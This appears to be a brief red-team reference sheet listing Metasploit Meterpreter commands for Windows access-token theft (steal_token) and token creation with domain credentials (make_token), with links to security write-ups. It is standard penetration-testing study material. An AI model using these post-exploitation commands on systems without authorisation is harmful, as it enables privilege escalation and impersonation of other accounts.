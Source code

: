 # Metasploit

Steal Token

```
meterpreter > steal_token <pid>

meterpreter > getuid

meterpreter > getpid

meterpreter > drop_token
```

Make Token

```
meterpreter > run post/windows/manage/make_token domain=<domain_name> username=<username> password=<password>

meterpreter > getuid

meterpreter > getprivs

meterpreter > rev2self
```

---
## References

- [Rapid7: Metasploit Framework Make Token Manage Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/make_token.md)

- [Pentestlab Blog: Token Stealing and Incognito](https://pentestlab.blog/2012/08/07/token-stealing-and-incognito/)

- [Demystifying Cobalt Strike’s “make_token” Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)